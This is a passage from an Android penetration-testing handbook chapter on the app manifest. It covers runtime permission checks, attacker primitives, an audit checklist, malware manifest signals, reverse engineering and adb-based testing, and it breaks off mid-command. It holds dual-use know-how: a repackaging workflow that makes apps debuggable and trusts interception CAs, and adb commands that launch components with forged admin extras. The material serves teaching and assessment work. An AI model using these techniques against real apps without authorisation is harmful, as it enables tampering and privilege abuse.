

Two details that decide whether your finding is real:

**The `START_ANY_ACTIVITY` branch.** `adb shell` (UID 2000) holds privileges a normal app does not.
When `am start -n com.victim/.InternalActivity` succeeds against a non-exported component, that
proves nothing about a third-party attacker. You must re-test from an unprivileged app UID.

**Background activity launch restrictions.** From Android 10, an app in the background generally
cannot start an Activity. This means a manifest-level "exported Activity" finding may be
*unexploitable in the background* on a modern device while being trivially exploitable when the
attacker app is in the foreground (which the attacker can arrange, since the user has to open the
malicious app at least once for anything else to matter either).

### 4.5 The runtime check for a Service

`ActiveServices.retrieveServiceLocked` in
`frameworks/base/services/core/java/com/android/server/am/ActiveServices.java` performs the
equivalent check for `startService` and `bindService`:

```java
// AOSP: services/core/java/com/android/server/am/ActiveServices.java (illustrative shape)
if (!sInfo.exported && Process.myUid() != callingUid /* i.e. different app */) {
    throw new SecurityException("Not allowed to start service " + service
            + " without permission " + sInfo.permission);
}
if (sInfo.permission != null
        && mAm.checkComponentPermission(sInfo.permission, callingPid, callingUid,
               sInfo.applicationInfo.uid, sInfo.exported) != PERMISSION_GRANTED) {
    throw new SecurityException(...);
}
```

Note that the check happens **once, at bind time**. After a successful `bindService`, the caller holds
an `IBinder` and every subsequent `transact()` on it is *not* re-checked by the framework. Any
per-method authorisation must be implemented by the service itself, typically via
`Binder.getCallingUid()` and `checkCallingPermission`. **A service that checks permissions only in
the manifest has exactly one authorisation decision covering every method it exposes.** That is
usually the vulnerability.

### 4.6 The runtime check for a Provider

`ContentProvider.enforceReadPermissionInner` was quoted in §3.9. Its caller,
`ContentProvider.Transport`, runs it on every `query`, `insert`, `update`, `delete`, `call` and
`openFile`. The important structural points:

- The check runs **inside the provider's own process**, not in `system_server`. `Binder.getCallingUid()`
  is the platform-supplied identity of the caller and cannot be forged.
- `ContentProvider.call()` receives no URI, so **path permissions do not apply to `call()` at all.**
  A provider that carefully restricts `query` with path permissions and then implements a privileged
  operation in `call()` has an unprotected privileged operation. Look for this specifically.
- `openFile`/`openAssetFile` go through `enforceFilePermission`, which additionally consults URI
  permission grants. This is the path a `FileProvider` traversal exploits.

### 4.7 Tracing an attribute end to end: `android:usesCleartextTraffic`

Worth following once, because it shows how far a manifest attribute travels.

1. **Manifest:** `<application android:usesCleartextTraffic="true">`
2. **Parse:** `ParsingPackageUtils` sets `ApplicationInfo.FLAG_USES_CLEARTEXT_TRAFFIC`.
3. **App start:** `ActivityThread.handleBindApplication` calls
   `NetworkSecurityPolicy.getInstance().setCleartextTrafficPermitted(...)` — see
   `frameworks/base/core/java/android/app/ActivityThread.java`.
4. **Config:** If `android:networkSecurityConfig` is also set, `NetworkSecurityConfigProvider.install`
   installs an `ApplicationConfig` derived from the XML, and **that overrides the boolean.**
5. **Enforcement in Java:** `libcore`'s HTTP stack and OkHttp both consult
   `NetworkSecurityPolicy.isCleartextTrafficPermitted(host)`.
6. **Enforcement in native:** Cronet and WebView consult their own copies via
   `android_net_NetworkSecurityPolicy` JNI.
7. **Not enforced at all:** raw sockets. An app that opens a `Socket` and writes HTTP by hand is not
   stopped by any of this.

> **⚠️ Warning**
> Step 7 is why `usesCleartextTraffic="false"` is not proof that the app has no cleartext traffic.
> The policy is advisory to cooperating libraries. Always confirm with a packet capture. See
> [44-NetworkSecurityConfig](../44-NetworkSecurityConfig/README.md).

---

## 5. Security Perspective

### 5.1 How attackers abuse the manifest

An attacker never edits the victim's manifest. They read it, and then they write **their own**
manifest to exploit what they found. The attack primitives:

| Primitive | Attacker's manifest / code | What it exploits |
|---|---|---|
| **Direct component invocation** | Nothing special; just `startActivity`/`bindService`/`sendBroadcast`/`ContentResolver` calls | `exported="true"` with no permission, or with a `normal` permission |
| **Custom permission acquisition** | `<uses-permission android:name="com.victim.permission.X"/>` | A `normal`-level custom permission — granted automatically |
| **Custom permission squatting** | `<permission android:name="com.victim.permission.X" android:protectionLevel="normal"/>` installed *before* the victim — **and only where the victim `<uses-permission>` the name without `<permission>`-declaring it itself** | The first definer of a permission name sets its level. If the victim also *declares* it, the second install is refused with `INSTALL_FAILED_DUPLICATE_PERMISSION` instead — measured on Android 13, see [23-Permissions](../23-Permissions/README.md) |
| **Deep link / scheme hijacking** | An identical `<intent-filter>` with the victim's custom scheme, plus a high `priority` | Custom schemes and unverified `https` links |
| **Task hijacking** | `android:taskAffinity="com.victim"` + `launchMode="singleTask"` | Default `taskAffinity` on the victim |
| **Authority squatting** | `<provider android:authorities="com.victim.provider">` installed first | Non-unique or predictable authority strings; causes install failure or interception depending on order |
| **Broadcast interception** | High-`priority` receiver for the victim's ordered broadcast, plus `abortBroadcast()` | Ordered broadcasts sent without a receiver permission |
| **Accessibility abuse** | `BIND_ACCESSIBILITY_SERVICE` + a permissive accessibility config XML | User consent obtained by social engineering |
| **Overlay attack** | `SYSTEM_ALERT_WINDOW` + a translucent Activity/`WindowManager` view | Victim Activity without `filterTouchesWhenObscured` / `FLAG_SECURE` |
| **`PendingIntent` hijack** | Receiving a mutable `PendingIntent` from the victim and filling in the blanks | `targetSdk` < 31, mutable `PendingIntent` handed to another app |

### 5.2 How developers create the exposure

The mistakes are remarkably consistent across organisations:

1. **They add an `<intent-filter>` for internal routing.** A developer wants Activity B to be
   launchable from Activity A via an implicit intent, adds a filter, and thereby exports B to the
   whole device. The correct pattern is an explicit `Intent` with a `ComponentName`, and no filter.
2. **They believe a permission protects a component without checking its level.** They define
   `com.example.permission.INTERNAL` with the default `protectionLevel="normal"` — the default when
   the attribute is omitted — and consider the job done.
3. **They never look at the merged manifest.** See §3.17.
4. **They leave `exported="true"` from a tutorial.** Sample code on the internet is full of
   `exported="true"` because it was written before API 31 made the attribute mandatory and authors
   added it mechanically to every component.
5. **They protect `query()` and forget `call()`.**
6. **They set `readPermission` and forget `writePermission`.**
7. **They add `<path-permission>` believing it restricts** (§3.9).
8. **They ship a debug build type's manifest overrides** — `debuggable`, a permissive Network
   Security Config, a test `<instrumentation>` runner.
9. **They paste an SDK key into `<meta-data>`** because the SDK's own documentation told them to.
10. **They set `android:exported="true"` to fix a crash** on Android 12 rather than working out
    whether the component should be reachable at all. This is now the single most common cause of new
    exported-component findings: the API 31 requirement forced developers to make a choice, and many
    chose `true` because it made the build work.

### 5.3 Real vulnerability classes and CVE-worthy patterns

> **⚠️ Warning on identifiers**
> This repository does not invent CVE numbers. Where a specific identifier is given below it is one
> the author is confident about. Where a class of issue is well documented but the specific
> identifier is uncertain, the class is described without an identifier. When you write a report,
> apply the same discipline: an incorrect CVE reference destroys the credibility of everything else
> in the document.

| Class | Description | Confident identifier |
|---|---|---|
| **APK verification vs extraction mismatch** | The signature verifier and the code that extracts/parses files disagree about which bytes are the file, allowing a signed APK to contain different content than was verified. The archetype is the "Master Key" duplicate-ZIP-entry bug. | CVE-2013-4787 (Android "Master Key", bug 8219321) |
| **APK/DEX prefix confusion ("Janus")** | A file that is simultaneously a valid DEX and a valid APK; the v1 (JAR) signature scheme verified the ZIP entries while the runtime loaded the prepended DEX. Fixed by APK Signature Scheme v2, which covers the whole file. | CVE-2017-13156 |
| **AXML parser differential** | Third-party manifest decoders and the platform disagree, so analysis tools see a benign manifest. Used by real malware families to evade automated scanning. | Described as a class; multiple vendor write-ups exist |
| **Exported component → privileged action** | An exported Activity/Service/Receiver performs a state change (log out, change server URL, export data, disable a security control) with no caller authorisation. | The most common finding in real assessments; app-specific |
| **Exported provider → data disclosure** | `exported="true"` with no `readPermission` on a provider backed by the app's database. | App-specific |
| **Provider path traversal** | `openFile` concatenates a URI segment into a path without canonicalisation. Extremely common in `FileProvider`-like custom implementations. | App-specific; a well-known class |
| **Custom permission with `normal` level** | Access control that grants itself. | App-specific |
| **Task affinity hijacking (StrandHogg family)** | Discussed in §3.6. Reported publicly by Promon in 2019 and 2020; the underlying behaviour is a design property of task affinity rather than a single patched bug. | Named vulnerability class, vendor-reported |
| **Unverified deep link → WebView** | A `BROWSABLE` filter passes an attacker URL into `WebView.loadUrl`, giving a remote web page a foothold in the app's WebView, and via `addJavascriptInterface`, potentially in its Java context. | App-specific; see [43-WebView](../43-WebView/README.md) |
| **Mutable `PendingIntent`** | An app hands another app a `PendingIntent` with unfilled fields; the recipient fills them and causes the *sender's* identity to perform an action. | App-specific; mitigated by targetSdk 31 |

### 5.4 Bug bounty patterns

Manifest-derived findings that are routinely accepted on public programmes, and what makes them
acceptable rather than "informational":

| Pattern | What turns it into a paid finding |
|---|---|
| Exported Activity | A demonstrated **security impact** — authentication bypass, access to a screen showing another user's data, forced state change. "It is exported" alone is almost always informational. |
| Exported provider | An actual data dump: run `content query` and paste real records (redacted). |
| Deep link handler | Chaining to account takeover: link → WebView → token in a URL → exfiltration. A working PoC HTML page that the researcher can host and that triggers the chain from the mobile browser. |
| Custom permission at `normal` | Combined with a component that does something privileged. |
| `debuggable="true"` in a production release from the official store | Almost always accepted, because impact is self-evident and the fix is trivial. Verify the APK really came from the store — a repackaged build proves nothing. |
| `allowBackup="true"` | Accepted where the backup demonstrably contains authentication material. Show the extracted file. |
| Task hijacking | Accepted by some programmes, rejected by others as "requires a malicious app installed". Include the two-app PoC and let the programme decide. |
| Injected SDK component | Accepted when the SDK component itself is exploitable; report to both the app and the SDK vendor. |

> **🔍 Pentester's Note**
> The difference between an informational note and a paid finding is almost never a different
> manifest attribute. It is a working proof of concept. Budget your time accordingly: five minutes
> reading the manifest, then hours building the PoC app that proves the reachable component does
> something harmful.

### 5.5 OWASP MASVS / MASTG mapping

| Manifest concern | MASVS control group | Typical MASTG test area |
|---|---|---|
| Exported components, permissions, intent filters, deep links | **MASVS-PLATFORM** | Testing app permissions; testing for app-level deep links; testing implicit intents; testing WebView protocol handlers |
| `allowBackup`, `fullBackupContent`, `dataExtractionRules` | **MASVS-STORAGE** | Testing backups for sensitive data |
| `usesCleartextTraffic`, `networkSecurityConfig` | **MASVS-NETWORK** | Testing the network security configuration; testing endpoint identity verification |
| `debuggable`, `profileable`, `testOnly`, `<instrumentation>` | **MASVS-RESILIENCE** | Testing whether the app is debuggable; testing for debugging symbols and code |
| `<meta-data>` API keys | **MASVS-CODE** / **MASVS-CRYPTO** | Testing for sensitive data in the app package |
| Custom permission `protectionLevel` | **MASVS-PLATFORM** | Testing custom permissions and IPC |
| `sharedUserId` | **MASVS-STORAGE** / **MASVS-PLATFORM** | Testing local data storage and sandbox integrity |

### 5.6 How pentesters test it — the manifest audit checklist

This is the checklist to run on every engagement. The severity column is a **starting point**;
adjust it once you know what the component actually does and what data the app holds.

#### A. Extraction and integrity

| # | Check | How | Severity if failed |
|---|---|---|---|
| A1 | Decoded manifest with at least two independent tools | `aapt2 dump xmltree` + `apktool d` | — (methodology) |
| A2 | Tools agree on every security attribute | `diff` the normalised output | **High** — deliberate malformation |
| A3 | On-device parse matches the file | `dumpsys package <pkg>` | **High** if it differs |
| A4 | Every `@resource` reference resolved | `apktool` output `res/` | — (methodology) |
| A5 | Signature scheme and signer recorded | `apksigner verify -v --print-certs` | — (context) |

#### B. Identity and SDK levels

| # | Check | Fail condition | Severity |
|---|---|---|---|
| B1 | `targetSdkVersion` | Below 31 | **Medium** rising to High below 28 |
| B2 | `minSdkVersion` | Below 24 on an app handling sensitive data | **Medium** (widens the threat model) |
| B3 | `sharedUserId` | Present | **Medium–High** by app sensitivity |
| B4 | `installLocation` | `preferExternal`/`auto` on a sensitive app | **Low** |
| B5 | `targetSandboxVersion` | Absent (i.e. 1) | Informational |

#### C. Application flags

| # | Check | Fail condition | Severity |
|---|---|---|---|
| C1 | `android:debuggable` | `true` | **Critical** |
| C2 | `android:testOnly` | `true` | **High** (indicator of shipped debug artefact) |
| C3 | `<profileable android:shell="true">` | Present in release | **Medium** |
| C4 | `android:allowBackup` | `true` **and** private storage contains secrets | **High** |
| C5 | `android:fullBackupContent` / `dataExtractionRules` | Absent while `allowBackup="true"` | **High** |
| C6 | `dataExtractionRules` excludes cloud but not `device-transfer` | Incomplete | **Medium** |
| C7 | `android:usesCleartextTraffic` | `true` (explicit or by targetSdk ≤ 27 default) with real HTTP endpoints | **High** |
| C8 | `android:networkSecurityConfig` | Absent, or present and permits user CAs / cleartext in release | **Medium–High** |
| C9 | `android:allowClearUserData="false"` | Present | **Low** |
| C10 | `android:hasFragileUserData="true"` | Present on an app with secrets | **Low–Medium** |
| C11 | `android:requestLegacyExternalStorage` | `true` | **Medium** |
| C12 | `android:appComponentFactory` | Present and unexplained | Investigate |
| C13 | `android:name` (Application class) | — | Read it first, always |

#### D. Components

| # | Check | Fail condition | Severity |
|---|---|---|---|
| D1 | Every component enumerated, including `activity-alias` | Any missed | — (methodology) |
| D2 | Exported components inventoried with their effective `exported` value | — | — |
| D3 | Exported component with **no** `permission` | Present | **Medium**, escalating to Critical by impact |
| D4 | Exported component whose `permission` resolves to `protectionLevel="normal"` | Present | **Same as D3** — the permission is not a control |
| D5 | `<activity-alias>` whose `exported`/`permission` is weaker than its target | Present | **High** |
| D6 | Exported Service with a bound `IBinder` interface | Present | **High** until proven otherwise |
| D7 | `android:isolatedProcess` on a component parsing untrusted input | Absent | **Low** (hardening) |
| D8 | `foregroundServiceType` (targetSdk 34+) | Absent, or `specialUse` without justification | **Low–Medium** |
| D9 | Exported receiver acting on extras | Present | **Medium–High** |
| D10 | Receiver `<intent-filter android:priority>` unusually high | Present | Investigate |
| D11 | `directBootAware` components | Present | Investigate — pre-unlock surface |
| D12 | `showWhenLocked` / `turnScreenOn` | Present on a sensitive Activity | **Medium** |
| D13 | `launchMode` `singleTask`/`singleInstance` + default `taskAffinity` | Present | **Medium** (task hijacking) |
| D14 | `android:taskAffinity=""` on launcher Activity | Absent | **Low–Medium** (hardening) |
| D15 | `allowTaskReparenting="true"` | Present | **Medium** |
| D16 | `android:allowEmbedded="true"` | Present on a sensitive Activity | **Medium** |
| D17 | `android:excludeFromRecents` / `noHistory` on auth screens | Absent | **Low** (hardening; `FLAG_SECURE` is the real control) |

#### E. Providers

| # | Check | Fail condition | Severity |
|---|---|---|---|
| E1 | Every `authorities` value listed | — | — |
| E2 | Exported provider with no `readPermission` | Present | **High** |
| E3 | Exported provider with `readPermission` but no `writePermission` | Present | **High** |
| E4 | `permission`/`readPermission`/`writePermission` at `normal` level | Present | **High** |
| E5 | `grantUriPermissions="true"` with no `<grant-uri-permission>` child | Present | **Medium–High** |
| E6 | `<path-permission>` present | Present | **Investigate** — apply §3.9 reasoning; frequently widens access |
| E7 | `FileProvider` `@xml/file_paths` containing `<root-path path="/">` or `<external-path path="."/>` | Present | **High** |
| E8 | Provider `call()` implemented with no in-code authorisation | Present | **High** |
| E9 | Authority string not namespaced under the package | Present | **Low** (collision/squatting) |

#### F. Permissions

| # | Check | Fail condition | Severity |
|---|---|---|---|
| F1 | Every `<permission>` declared by the app has an explicit `protectionLevel` | Absent → defaults to `normal` | **High** if it guards anything |
| F2 | Custom permissions use `signature` for internal IPC | `normal`/`dangerous` used instead | **High** |
| F3 | Requested permissions justified by observed functionality | Over-privilege | **Low–Medium** |
| F4 | High-signal permissions present (see §3.11 table) | Present | Investigate each |
| F5 | `QUERY_ALL_PACKAGES` | Present without a qualifying use case | **Low–Medium** (privacy) |
| F6 | `<permission-tree>` present | Present | Note: manifest under-describes the surface |
| F7 | `maxSdkVersion` used correctly on storage permissions | Absent | Informational |

#### G. Intent filters and deep links

| # | Check | Fail condition | Severity |
|---|---|---|---|
| G1 | Every `BROWSABLE` filter listed | — | — |
| G2 | `https` filters have `autoVerify="true"` | Absent | **Medium** |
| G3 | App Links actually verify on-device | `pm get-app-links` shows failure | **Medium** |
| G4 | Custom schemes carrying secrets (OAuth redirect) | Present | **High** (interceptable) |
| G5 | `android:host="*"` or overly broad `pathPattern` | Present | **Medium** |
| G6 | `mimeType="*/*"` on an exported component | Present | Investigate |

#### H. Metadata and stragglers

| # | Check | Fail condition | Severity |
|---|---|---|---|
| H1 | All `<meta-data>` values extracted and classified | — | — |
| H2 | Live secret in `<meta-data>` | Present | **High–Critical** if validated |
| H3 | `<instrumentation>` present | Present | **High** |
| H4 | `<uses-library org.apache.http.legacy>` | Present | **Low–Medium** |
| H5 | Referenced config XML files read (`file_paths`, `network_security_config`, `accessibility_config`, `device_admin`, `backup_rules`) | Any unread | — (methodology) |
| H6 | Components attributable to third-party SDKs | Unattributed | — (methodology) |

### 5.7 How malware abuses the manifest

Malware's manifest is a confession. Read it first and you will usually know the family before you
open the DEX.

| Manifest signal | What the malware does |
|---|---|
| `BIND_ACCESSIBILITY_SERVICE` service + permissive `@xml/accessibility_config` with `canRetrieveWindowContent` and `canPerformGestures` | Reads every screen and clicks for the user. Banking overlays, automatic permission granting, self-protection against uninstall. |
| `BIND_DEVICE_ADMIN` receiver with `@xml/device_admin` | Resists uninstall, can lock or wipe. Ransomware and stalkerware. |
| `RECEIVE_SMS` + high-priority receiver + `abortBroadcast` | OTP interception. |
| `BIND_NOTIFICATION_LISTENER_SERVICE` | OTP interception without SMS permission — reads the notification instead. |
| `SYSTEM_ALERT_WINDOW` + translucent theme | Overlay phishing. |
| `REQUEST_INSTALL_PACKAGES` | Dropper stage. |
| `<queries>` listing dozens of banking packages | Target list. This is the fastest way to enumerate a banker's targets. |
| `RECEIVE_BOOT_COMPLETED` receiver | Persistence. |
| `FOREGROUND_SERVICE` + `foregroundServiceType="specialUse"` | Persistence with a plausible justification string. |
| `android:appComponentFactory` pointing at an unfamiliar class | A packer or an early-execution hook. |
| Package name resembling a system component (`com.android.systemservice`) | Social engineering of the app list. |
| Almost no components, one provider with `initOrder` | A loader stub; the real payload arrives later. Check `assets/` for encrypted DEX. |

### 5.8 How forensic analysts use the manifest

An examiner works from the manifest in the opposite direction: not "what can be attacked" but "what
could this app have done, and where would the traces be".

| Manifest fact | Forensic consequence |
|---|---|
| Requested permissions | Which sensors and data stores the app *could* have touched. Cross-reference with AppOps history: `adb shell dumpsys appops <pkg>` gives per-operation timestamps. |
| `allowBackup` / `dataExtractionRules` | Whether the data may exist in a Google account backup outside the device. |
| Declared providers | Additional data stores addressable by authority; a source of records outside the app's own directory. |
| `android:process` entries | Additional process names to look for in logs and memory captures. |
| `directBootAware` | The component could have run before first unlock; correlate with boot timestamps. |
| `sharedUserId` | Data may live in a sibling app's directory. |
| Declared `<receiver>` actions | Which system events would have started the app, which explains execution timestamps that do not correspond to user interaction. |
| `versionCode` + signing certificate | Establishes exactly which build is on the device, which is a chain-of-custody and reproducibility requirement. |

---

## 6. Reverse Engineering Perspective

### 6.1 What the manifest looks like at each layer

| Layer | What you see | Command |
|---|---|---|
| Raw APK | A ZIP entry named `AndroidManifest.xml` whose first bytes are `03 00 08 00` | `unzip -p app.apk AndroidManifest.xml \| xxd \| head` |
| `aapt2` tree | Elements, attributes with resource IDs, raw typed values | `aapt2 dump xmltree --file AndroidManifest.xml app.apk` |
| `aapt2` badging | A summarised, human-oriented view | `aapt2 dump badging app.apk` |
| `apktool` | Reconstructed text XML with resources named | `apktool d app.apk` |
| JADX | The manifest in the *Resources* tree, alongside decompiled Java | GUI or `jadx -d out app.apk` |
| Device | The parsed record | `adb shell dumpsys package <pkg>` |

The AXML magic bytes are worth memorising: a compiled XML file begins with the `RES_XML_TYPE` chunk
header, which serialises little-endian as `03 00` (type) `08 00` (headerSize).

```bash
# host — confirm you are looking at binary XML rather than text
unzip -p target.apk AndroidManifest.xml | xxd | head -2
# 00000000: 0300 0800 c412 0000 0100 1c00 ...
```

### 6.2 Mapping manifest declarations to code

Every manifest component names a class. Your first pass in JADX is to open each one and classify it.

| Manifest element | What to open in JADX | What you are looking for |
|---|---|---|
| `<application android:name>` | The `Application` subclass | `onCreate`, `attachBaseContext` — SSL pinning setup, root detection, native `System.loadLibrary`, packer unpacking |
| `<provider android:initOrder>` (high) | The provider's `onCreate` | Code that runs *before* `Application.onCreate` — often the earliest anti-tamper check |
| `<activity>` with `BROWSABLE` filter | `onCreate` → `getIntent().getData()` | Where the attacker-controlled URI goes |
| `<service>` exported | `onBind` and the returned `Stub` | Transaction codes and their handlers |
| `<receiver>` exported | `onReceive` | `intent.getStringExtra(...)` and what is done with it |
| `<provider>` | `query`, `insert`, `update`, `delete`, `call`, `openFile` | SQL string building, file path building, missing auth in `call` |
| `android:appComponentFactory` | The factory class | Class loading manipulation, packers |
| `<meta-data android:resource>` | The referenced XML in `res/xml/` | Real configuration |

### 6.3 Smali and DEX signatures of manifest-driven behaviour

An exported receiver reading an extra is unmistakable in Smali:

```smali
# onReceive(Landroid/content/Context;Landroid/content/Intent;)V
.method public onReceive(Landroid/content/Context;Landroid/content/Intent;)V
    .locals 3

    const-string v0, "target_url"
    invoke-virtual {p2, v0}, Landroid/content/Intent;->getStringExtra(Ljava/lang/String;)Ljava/lang/String;
    move-result-object v1

    # no null check, no validation, straight into a WebView / network call
    invoke-static {p1, v1}, Lcom/example/Downloader;->fetch(Landroid/content/Context;Ljava/lang/String;)V

    return-void
.end method
```

Reading a `<meta-data>` value at runtime:

```smali
    invoke-virtual {p0}, Landroid/content/Context;->getPackageManager()Landroid/content/pm/PackageManager;
    move-result-object v0
    invoke-virtual {p0}, Landroid/content/Context;->getPackageName()Ljava/lang/String;
    move-result-object v1
    const/16 v2, 0x80          # PackageManager.GET_META_DATA
    invoke-virtual {v0, v1, v2}, Landroid/content/pm/PackageManager;->getApplicationInfo(Ljava/lang/String;I)Landroid/content/pm/ApplicationInfo;
    move-result-object v3
    iget-object v4, v3, Landroid/content/pm/ApplicationInfo;->metaData:Landroid/os/Bundle;
    const-string v5, "com.example.sdk.API_SECRET"
    invoke-virtual {v4, v5}, Landroid/os/Bundle;->getString(Ljava/lang/String;)Ljava/lang/String;
    move-result-object v6
```

The constant `0x80` (`GET_META_DATA`) is a reliable grep target. So is `0x1000`
(`GET_PERMISSIONS`), `0x4000` (`GET_SIGNATURES`, deprecated) and `0x8000000`
(`GET_SIGNING_CERTIFICATES`) — the last two indicate the app checks its own signature, which is
[38-TamperDetection](../38-TamperDetection/README.md) territory.

A component enabling or disabling itself, which changes the effective manifest at runtime:

```smali
    invoke-virtual {p0}, Landroid/content/Context;->getPackageManager()Landroid/content/pm/PackageManager;
    move-result-object v0
    new-instance v1, Landroid/content/ComponentName;
    const-string v2, "com.example.target"
    const-string v3, "com.example.target.HiddenActivity"
    invoke-direct {v1, v2, v3}, Landroid/content/ComponentName;-><init>(Ljava/lang/String;Ljava/lang/String;)V
    const/4 v4, 0x1            # COMPONENT_ENABLED_STATE_ENABLED
    const/4 v5, 0x1            # DONT_KILL_APP
    invoke-virtual {v0, v1, v4, v5}, Landroid/content/pm/PackageManager;->setComponentEnabledSetting(Landroid/content/ComponentName;II)V
```

> **🔍 Pentester's Note**
> `setComponentEnabledSetting` means the manifest is not the final word on which components are
> active. A component declared `android:enabled="false"` may be turned on by the app, and the enabled
> state persists in `/data/system/users/0/package-restrictions.xml`. Always cross-check the manifest
> against `dumpsys package <pkg>`, which shows the *current* enabled state, and grep the DEX for
> `setComponentEnabledSetting`.

### 6.4 What obfuscation does — and does not do — to the manifest

This is one of the most useful facts in the whole chapter.

**Manifest component names cannot be obfuscated away.** R8/ProGuard must keep the classes named in
the manifest, and must keep their names matching, because `PackageManager` instantiates them by
string. The standard AGP configuration rewrites the manifest in step with the DEX for classes it
renames, but in practice:

| Element | Obfuscation effect |
|---|---|
| Component class names | Kept, or renamed **consistently** in both manifest and DEX. Either way, the manifest tells you the real class to open. |
| Permission strings | Never obfuscated. They are cross-process identifiers. |
| Authority strings | Never obfuscated. |
| Intent actions and categories | Never obfuscated. |
| `<meta-data>` names and values | Never obfuscated. |
| `<intent-filter>` data (scheme/host/path) | Never obfuscated. |
| Everything inside the referenced `res/xml/*.xml` | Never obfuscated. |

> **🧠 Mental Model**
> The manifest is the **unobfuscatable index** to an obfuscated app. However thoroughly the code is
> mangled, every externally-reachable entry point must still be listed in plaintext, with its real
> class name, because a different process has to find it. When an app is a wall of `a.b.c` classes,
> the manifest is your list of the handful that matter. Start there, every time.

Packers do change the picture, but predictably:

| Packer behaviour | Manifest evidence |
|---|---|
| Real `Application` replaced by a stub that decrypts and loads the real DEX | `android:name` points at a class from the packer's package (`com.secneo`, `com.qihoo`, `com.stub`, `s.h.e.l.l`), and the class list is tiny |
| Real components proxied | Manifest names classes that do not exist in `classes.dex`, or that are trivial stubs |
| `appComponentFactory` used to intercept instantiation | `android:appComponentFactory` present |
| Real payload in `assets/` | Large opaque files in `assets/`; `<application android:extractNativeLibs>` and unusual `lib/` contents |

When the manifest names a class you cannot find in the DEX, you are looking at dynamic loading. Move
to [15-Native-Code](../15-Native-Code/README.md) and
[68-ReverseEngineering](../68-ReverseEngineering/README.md).

### 6.5 Rebuilding a manifest — the repackaging workflow

You will frequently need to *modify* a manifest: set `debuggable="true"` to get `run-as`, add a
Network Security Config that trusts your CA, or export a component to test it.

```bash
# host — decode, edit, rebuild, align, sign
apktool d -f target.apk -o work
# edit work/AndroidManifest.xml
apktool b work -o patched.apk
zipalign -p -f 4 patched.apk aligned.apk
apksigner sign --ks debug.keystore --ks-key-alias androiddebugkey \
    --ks-pass pass:android --key-pass pass:android --out signed.apk aligned.apk
apksigner verify -v --print-certs signed.apk
adb install -r signed.apk
```

> **⚠️ Warning**
> Repackaging changes the signing certificate. Any app that checks its own signature
> ([38-TamperDetection](../38-TamperDetection/README.md)), uses signature-level permissions with a
> sibling app, uses Play Integrity, or pins its own certificate will behave differently after
> repackaging. When you repackage, **state in your report that you did**, and confirm findings on the
> original APK wherever possible. A finding that only reproduces on a repackaged build is a weaker
> finding and an honest report says so.

The three edits worth memorising:

```xml
<!-- 1. Make it debuggable → run-as, JDWP, Frida without root -->
<application android:debuggable="true" ... >

<!-- 2. Trust your interception CA (add res/xml/nsc.xml too) -->
<application android:networkSecurityConfig="@xml/nsc" ... >
```

```xml
<!-- res/xml/nsc.xml -->
<network-security-config>
    <base-config cleartextTrafficPermitted="true">
        <trust-anchors>
            <certificates src="system"/>
            <certificates src="user"/>
        </trust-anchors>
    </base-config>
</network-security-config>
```

```xml
<!-- 3. Export a component you want to reach from adb -->
<activity android:name=".InternalActivity" android:exported="true"/>
```

Note that edit 3 changes the thing you are testing. Use it to *explore* the component's behaviour,
then reason carefully about whether a real attacker could reach it in the unmodified app. Reporting
"I exported it and then it was exported" is not a finding.

---

## 7. Dynamic Analysis

Static reading gives you hypotheses. This section turns each one into a tested fact.

### 7.1 `dumpsys package` — the ground truth

```bash
# host — the full parsed record
adb shell dumpsys package com.example.target > pkg.txt
```

The sections you care about, in the order you should read them:

| Section heading in the output | What it gives you |
|---|---|
| `Activity Resolver Table` | Every intent filter the system will match, per component. This is the resolution table itself — more authoritative than reading filters by hand. |
| `Receiver Resolver Table` | Same for receivers. |
| `Service Resolver Table` | Same for services. |
| `Provider Resolver Table` / `Registered ContentProviders` | Authorities → component mapping. |
| `Permissions:` | Every permission **declared by** this package, with its real `protectionLevel`. |
| `Packages:` → `userId=` | The app's UID. |
| `Packages:` → `flags=[ ... ]` | The `ApplicationInfo` flags from §4.3 — this is where you confirm `DEBUGGABLE`, `ALLOW_BACKUP`, `TEST_ONLY`. |
| `Packages:` → `pkgFlags`/`privatePkgFlags` | More flags including `DIRECT_BOOT_AWARE`. |
| `requested permissions:` | What the manifest asked for. |
| `install permissions:` | Install-time permissions actually granted. |
| `runtime permissions:` | Runtime permissions and their grant state, per user. |
| `signatures=` / `signing details` | The certificate. |
| `installerPackageName=` | Whether it came from Play or was sideloaded. |
| `versionCode=` / `targetSdk=` | Confirm what you read from the APK. |

Extract the pieces you need:

```bash
# host — declared permissions with their true protection levels
adb shell dumpsys package com.example.target | sed -n '/^Permissions:/,/^Registered/p'

# host — exported components only, from the resolver tables
adb shell dumpsys package com.example.target | grep -E 'Activity Resolver|Receiver Resolver|Service Resolver' -A 200

# host — application flags (debuggable, backup, testOnly)
adb shell dumpsys package com.example.target | grep -E '^\s+(flags|pkgFlags|privatePkgFlags)='

# host — the resolved protectionLevel of a specific custom permission
adb shell pm list permissions -f | grep -A6 'com.example.permission.SYNC'
```

> **🔍 Pentester's Note**
> `pm list permissions -f` prints the full record for every permission on the device, including
> `protectionLevel`. This is how you settle the "is this custom permission actually protecting
> anything?" question in three seconds, from the device, with no decompilation.

Two more package-manager commands that belong in your muscle memory:

```bash
# host — App Links verification state (does autoVerify actually work?)
adb shell pm get-app-links com.example.target

# host — which app currently handles a given URI
adb shell pm resolve-activity --brief -a android.intent.action.VIEW -d "myapp://x"

# host — every component's current enabled state (manifest value may have been overridden)
adb shell dumpsys package com.example.target | grep -i 'enabled='
```

### 7.2 Exercising components from `adb` — and its limits

```bash
# host — start an activity with attacker-shaped extras
adb shell am start -n com.example.target/.InternalActivity \
    --es token "AAAA" --ei user_id 1 --ez is_admin true \
